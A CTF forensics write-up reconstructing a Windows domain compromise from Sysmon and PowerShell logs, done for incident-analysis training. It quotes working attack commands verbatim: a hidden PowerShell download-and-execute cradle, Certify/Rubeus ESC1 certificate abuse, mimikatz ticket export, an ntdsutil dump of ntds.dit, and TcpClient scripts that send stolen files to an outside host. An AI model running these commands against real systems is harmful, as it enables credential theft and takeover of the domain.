

# We have an incident! - KubSTU CTF 2026 Write-up

## Description

>It seems an incident has occurred at our company. Nothing is clear yet — we've isolated certain machines to be safe. The response team is working closely with virus analysts. To make their job easier, you need to provide them with the malware that you must find. There are also suspicions that data exfiltration took place. Find out what happened.  
>Flag format: `KubSTU{Vulnerability of the element/attack that led to privilege escalation:List of malware including their extensions:Exfiltrated data}`  
>Note! List items in chronological order of their launch timestamps (case-sensitive), from earliest to latest. Same applies to exfiltration.  
>Example: `KubSTU{polkit:PwnKit.exe_revershell.exe_WannaCry.exe:ConfidentialData.doc_users.db}`

---

## 1. TL;DR

This challenge is a Windows incident reconstruction task. The flag has three moving parts, and each part must be correct at the same time:

1. the privilege-escalation method,
2. the malicious file / tool execution chain in timestamp order,
3. the exfiltrated files in the exact transmission order.

The attack starts when user **Elvira** opens a malicious document named `Резюме.docm`. That document launches hidden PowerShell, which pulls remote content from `192.168.100.54`. The payload chain drops and runs `Certify.exe`, `Rubeus.exe`, `mimikatz.exe`, and later `wlmss.exe`.

The privilege escalation is **AD CS ESC1**. `Certify.exe` requests a certificate from the vulnerable template `VulnerableUserSAN` with `/altname:admin`, then `Rubeus.exe` uses the resulting certificate to request a TGT for `admin`.

After that, the attacker pivots to the domain controller through **WinRM / PowerShell remoting**. On the DC, they run `ntdsutil` to create an IFM dump, copy `ntds.dit` into a public location, and transmit it out. The two confirmed exfiltrated files are:

1. `0-40e10000-admin@krbtgt~kuban.loc-KUBAN.LOC.kirbi`
2. `ntds.dit`

That produces the accepted flag:

```text
KubSTU{ESC1:Резюме.docm_Certify.exe_Rubeus.exe_mimikatz.exe_wlmss.exe:0-40e10000-admin@krbtgt~kuban.loc-KUBAN.LOC.kirbi_ntds.dit}
```

---

## 2. What data/files we have and what is special

The provided archive contains a forensic collection from at least two Windows systems:

- **HR** workstation: `HR-DESKTOP.kuban.loc`
- **AD / DC** host: `DC1.kuban.loc`

The high-value evidence for this challenge lives in Windows artifacts such as:

- `Microsoft-Windows-Sysmon%4Operational.evtx`
- `Windows PowerShell.evtx`
- `Microsoft-Windows-PowerShell%4Operational.evtx`
- recent-file traces such as `Резюме.lnk`
- prefetch files for `CERTIFY.EXE`, `RUBEUS.EXE`, `MIMIKATZ.EXE`, `WLMSS.EXE`

What makes this challenge tricky is not the attack family itself. The tricky part is the **flag discipline**.

The challenge does not ask for a broad narrative. It asks for a very strict reconstruction:

- the escalation technique must be named correctly,
- the malware / payload list must be in **launch order**,
- the exfiltration list must be in **actual send order**,
- filenames must preserve **case and extensions**.

That last point matters a lot. A file can be copied, staged, or prepared for theft without actually being exfiltrated. This challenge punishes that mistake.

### About the “interactive” side of the challenge

There is no public server-player interaction like an `nc` service or web app. The challenge is entirely forensic. The meaningful “interaction” is the attacker’s own command-and-control behavior inside the logs.

The important remote interactions are:

- phishing stage from `192.168.100.54`:
  - `/phishing/runme.txt`
  - `/phishing/implant.ps1`
- tool download / staging from `192.168.100.54`
- PowerShell reverse shell / remote command execution
- WinRM / `wsmprovhost.exe` activity on the domain controller
- raw TCP exfiltration to:
  - `192.168.100.54:9000`
  - `192.168.100.54:9001`

---

## 3. Problem Analysis (In Details)

The cleanest way to solve this challenge is to split it into three independent questions:

1. **How did privilege escalation happen?**
2. **What malicious files were launched, and in what order?**
3. **Which files were truly exfiltrated, and in what order?**

### 3.1 Initial compromise on HR

The earliest decisive execution on the HR workstation is the opening of a Word document:

```text
2026-03-28T13:20:43.503175Z
"C:\Program Files\Microsoft Office\Office16\WINWORD.EXE" /n "C:\Users\Elvira\Downloads\Резюме.docm" /o ""
```

Very shortly afterward, Word spawns hidden PowerShell through `cmd.exe`:

```text
cmd.exe /c start /min powershell -WindowStyle Hidden -Command "Invoke-Expression (New-Object Net.WebClient).DownloadString('http://192.168.100.54/phishing/runme.txt')"
```

Then PowerShell launches the second-stage script:

```text
Invoke-Expression (New-Object Net.WebClient).DownloadString('http://192.168.100.54/phishing/implant.ps1')
```

This establishes the compromise chain clearly:

- user opens `Резюме.docm`
- macro / document logic launches hidden PowerShell
- PowerShell pulls remote second-stage content from attacker infrastructure

### 3.2 Why the escalation is ESC1

The strongest evidence appears when `Certify.exe` is launched from the HR host:

```text
2026-03-28T13:21:34.197911Z
"C:\Users\Public\Certify.exe" request /ca:DC1.kuban.loc\kuban-DC1-CA /template:VulnerableUserSAN /altname:admin "/subject:CN=admin, CN=Users, DC=kuban, DC=loc"
```

This is classic **AD CS ESC1** behavior.

The important details are all present at once:

- certificate request against the enterprise CA,
- vulnerable template: `VulnerableUserSAN`,
- attacker-controlled SAN / alternate identity: `/altname:admin`.

That means the attacker can obtain a certificate that authenticates as the privileged account.

The next stage confirms the abuse path:

```text
2026-03-28T13:31:34.613057Z
"C:\Users\Public\Rubeus.exe" asktgt /user:admin /certificate:C:\Users\Public\admin.pfx /password: /nowrap /ptt
```

At this point, the sequence is unambiguous:

- `Certify.exe` abuses a vulnerable certificate template,
- the attacker gets `admin.pfx`,
- `Rubeus.exe` uses that certificate to request a TGT for `admin`.

That is why the first field of the flag is:

```text
ESC1
```

### 3.3 Recovering the malicious execution chain

The challenge wants the list of malicious files in launch order. The earliest confirmed executions are:

```text
2026-03-28T13:20:43.503175Z  Резюме.docm
2026-03-28T13:21:34.197911Z  Certify.exe
2026-03-28T13:31:34.613057Z  Rubeus.exe
2026-03-28T13:31:55.078013Z  mimikatz.exe
2026-03-28T13:54:27.084426Z  wlmss.exe
```

The `mimikatz.exe` command line is also very informative:

```text
"C:\Users\Public\mimikatz.exe" privilege::debug "kerberos::list /export" exit
```

That explains why the `.kirbi` file later appears in `C:\Users\Public\`.

For `wlmss.exe`, the attacker stages and starts it via PowerShell. One of the relevant commands is:

```text
Copy-Item -Path C:\Users\Public\wlmss.exe -Destination C:\Users\Elvira\OneDrive\wlmss.exe -Force; Start-Process -FilePath C:\Users\Elvira\OneDrive\wlmss.exe -WindowStyle Hidden
```

A common mistake here is to ignore the lure document and only list `.exe` files. The accepted flag proves that `Резюме.docm` must be counted as part of the malicious launch chain.

### 3.4 Pivot to the domain controller

Later on, the DC shows `wsmprovhost.exe` activity, which is a strong sign of PowerShell remoting / WinRM execution. The decisive command is:

```text
2026-03-28T13:32:55.035117Z
"C:\Windows\system32\ntdsutil.exe" "ac i ntds" ifm "create full C:\temp\ntds" q q
```

This is not just host reconnaissance anymore. This is domain compromise turning into directory database collection.

The PowerShell logs on the DC then show:

```text
Copy-Item -Path C:\temp\ntds\Active Directory\ntds.dit -Destination C:\Users\Public\ntds.dit
```

This confirms that the attacker staged the AD database for outbound transfer.

### 3.5 The exfiltration pitfall

This is the point where it is easy to lose the flag.

During the DC activity, the attacker stages `ntds.dit`, and there are also traces involving `SYSTEM`. A natural first guess is that both `ntds.dit` and `SYSTEM` were exfiltrated. That guess is plausible, but it is wrong for this challenge.

The accepted answer depends on **confirmed send operations**, not just staging.

The HR-side PowerShell log contains the outbound transfer of the Kerberos ticket file:

```text
$file="C:\Users\Public\0-40e10000-admin@krbtgt~kuban.loc-KUBAN.LOC.kirbi";
$bytes=[System.IO.File]::ReadAllBytes($file);
$tcp=New-Object System.Net.Sockets.TcpClient('192.168.100.54',9000);
$stream=$tcp.GetStream();
$stream.Write($bytes,0,$bytes.Length);
$stream.Close();
$tcp.Close()
```

The DC-side PowerShell log contains the outbound transfer of `ntds.dit`:

```text
$file="C:\Users\Public\ntds.dit";
$bytes=[System.IO.File]::ReadAllBytes($file);
$tcp=New-Object System.Net.Sockets.TcpClient('192.168.100.54',9001);
$stream=$tcp.GetStream();
$stream.Write($bytes,0,$bytes.Length);
$stream.Close();
$tcp.Close()
```

These two commands give us the actual exfiltration list, in order:

1. `0-40e10000-admin@krbtgt~kuban.loc-KUBAN.LOC.kirbi`
2. `ntds.dit`

That is the exact place where the earlier wrong guess with `SYSTEM` fails.

---

## Concept Map



---

## 4. Initial Guesses / First Try

The core of the attack was recognizable pretty early. `Certify.exe` together with `Rubeus.exe` is one of those combinations that immediately narrows the search space. Once the certificate request with `/template:VulnerableUserSAN /altname:admin` appeared in the logs, **ESC1** became the strongest explanation.

The first real trap was the **exfiltration field**.

A very natural first answer is:

```text
KubSTU{ESC1:Резюме.docm_Certify.exe_Rubeus.exe_mimikatz.exe_wlmss.exe:ntds.dit_SYSTEM}
```

That answer feels reasonable because the attacker clearly stages `ntds.dit`, and `SYSTEM` also appears in the DC workflow. The problem is that the challenge wants files that were **actually sent**, not files that were merely copied or prepared.

The fix was to stop inferring and go back to the raw PowerShell evidence. Once the outbound `TcpClient(...,9000)` and `TcpClient(...,9001)` commands were isolated, the exfiltration list became precise.

---

## 5. Exploitation Walkthrough / Flag Recovery

### Step 1 — Find the initial trigger

The first malicious user action on the HR workstation is the opening of:

```text
C:\Users\Elvira\Downloads\Резюме.docm
```

That gives the first item in the payload chain.

### Step 2 — Follow the document into PowerShell

Word spawns hidden PowerShell through `cmd.exe`, which downloads:

- `runme.txt`
- `implant.ps1`

from `192.168.100.54`.

This turns the problem from “maybe a suspicious document” into a confirmed staged compromise.

### Step 3 — Identify the escalation method

The first decisive post-document tool is `Certify.exe`, and its command line is the giveaway:

```text
request /ca:DC1.kuban.loc\kuban-DC1-CA /template:VulnerableUserSAN /altname:admin
```

That is the textbook shape of **ESC1** abuse in AD CS.

### Step 4 — Confirm privilege use with Rubeus

`Rubeus.exe` follows with:

```text
asktgt /user:admin /certificate:C:\Users\Public\admin.pfx /password: /nowrap /ptt
```

That is the certificate-derived TGT request for `admin`, confirming the abuse path.

### Step 5 — Finish the malicious file timeline

The confirmed execution order is:

```text
Резюме.docm
Certify.exe
Rubeus.exe
mimikatz.exe
wlmss.exe
```

Joined for the second flag field:

```text
Резюме.docm_Certify.exe_Rubeus.exe_mimikatz.exe_wlmss.exe
```

### Step 6 — Recover the exfiltrated files

The attacker exports a Kerberos ticket from the HR side and sends it out over TCP port `9000`:

```text
0-40e10000-admin@krbtgt~kuban.loc-KUBAN.LOC.kirbi
```

The attacker later stages `ntds.dit` on the DC and sends it out over TCP port `9001`:

```text
ntds.dit
```

Joined in timestamp order, the third flag field becomes:

```text
0-40e10000-admin@krbtgt~kuban.loc-KUBAN.LOC.kirbi_ntds.dit
```

### Step 7 — Assemble the final flag

Now we combine:

- `ESC1`
- `Резюме.docm_Certify.exe_Rubeus.exe_mimikatz.exe_wlmss.exe`
- `0-40e10000-admin@krbtgt~kuban.loc-KUBAN.LOC.kirbi_ntds.dit`

Final flag:

```text
KubSTU{ESC1:Резюме.docm_Certify.exe_Rubeus.exe_mimikatz.exe_wlmss.exe:0-40e10000-admin@krbtgt~kuban.loc-KUBAN.LOC.kirbi_ntds.dit}
```

---

## 6. What We Learned

This challenge is a good reminder that forensics is often about **precision**, not just recognition.

A few takeaways stand out.

### 6.1 Strong tool pairings accelerate analysis

`Certify.exe` and `Rubeus.exe` are a very high-signal pair. Once both appear in the same chain, AD CS abuse should be one of the first working hypotheses.

### 6.2 The first stage still counts

It is tempting to focus only on obvious offensive binaries and skip the initial document. Here, that would lose the flag. The lure file `Резюме.docm` is part of the malicious launch sequence and has to be included.

### 6.3 Staging is not exfiltration

This is the single most important lesson from the challenge. A copied file is not automatically a stolen file. The accepted answer depends on **explicit outbound transfer evidence**, not on assumptions about what the attacker probably wanted.

### 6.4 Windows PowerShell logs can be decisive

Sysmon gave the process timeline, but the PowerShell logs carried the fine-grained truth:

- download commands,
- certificate abuse flow,
- ticket export context,
- `ntdsutil` workflow,
- raw TCP exfiltration commands.

Without those logs, it would be much easier to over-guess.

---

## Final Answer

```text
KubSTU{ESC1:Резюме.docm_Certify.exe_Rubeus.exe_mimikatz.exe_wlmss.exe:0-40e10000-admin@krbtgt~kuban.loc-KUBAN.LOC.kirbi_ntds.dit}
```

---

## Helper Script

A small helper script is included as `solve.py`.

It is designed for the **extracted evidence tree** and will recover:

- the privesc method,
- the malicious execution order,
- the exfiltration order,
- the final flag.

### Usage

```bash
python3 solve.py /path/to/extracted/incident
```

If the extracted tree is available at `/mnt/data/incident`, the script can also be run without arguments in this environment.
